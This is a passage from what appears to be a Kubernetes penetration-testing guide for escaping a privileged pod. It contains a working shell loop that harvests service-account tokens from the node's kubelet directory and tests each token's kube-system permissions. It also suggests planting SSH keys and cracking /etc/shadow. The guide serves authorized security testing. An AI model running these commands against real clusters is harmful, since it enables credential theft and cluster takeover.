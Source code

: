* From outside the pod, you execute `kubectl exec`, and use undock.sh to find all of the token locations on the host
* You then iterate through the list of filenames, and
  * Print the token location
  * Run `kubectl auth can-i list` using each token via the `--token` command line argument.  
* This gives you a list of the actions each token can perform cluster wide. 
  
The next command will do the same thing, but just in the kube-system namespace. 


**Run kubectl can-i --list -n kube-system against ALL tokens found on the node**

*Run this where you have kubectl installed and NOT from within the priv pod.*
*Make sure you already dropped undock.sh to the pod* 
```
tokens=`kubectl exec -it priv-exec-pod -- sh undock.sh """find /var/lib/kubelet/pods/ -name token -type l"""`; \
for filename in $tokens; \
do filename_clean=`echo $filename | tr -dc '[[:print:]]'`; \
echo "Token Location: $filename_clean"; \
tokena=`kubectl exec -it priv-exec-pod -- sh undock.sh "cat $filename_clean"`; \
echo -n "What can I do? "; \
SERVER=`kubectl config view --minify --flatten -ojsonpath='{.clusters[].cluster.server}'`; \
export KUBECONFIG="dummy"; \
kubectl --server=$SERVER --insecure-skip-tls-verify --token=$tokena auth can-i --list -n kube-system; echo; echo; echo; \
unset KUBECONFIG; \
done
```

**Can any of the tokens:**
* Create a pod, deployment, etc. in the kube-system namespace?
* Create a role in the kube-system namespace?
* View secrets in the kube-system namespace?
* Create clusterrolebindings? 

You are looking for a way to access to all resources in all namespaces.




## Some other ideas
* Add your public key authorized_keys on the node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access control-plane nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

## Attacks that apply to all pods, even without any special permissions

**To see these in more detail, head over to [nothing-allowed/README.md](../nothing-allowed)** 

* Access the cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster
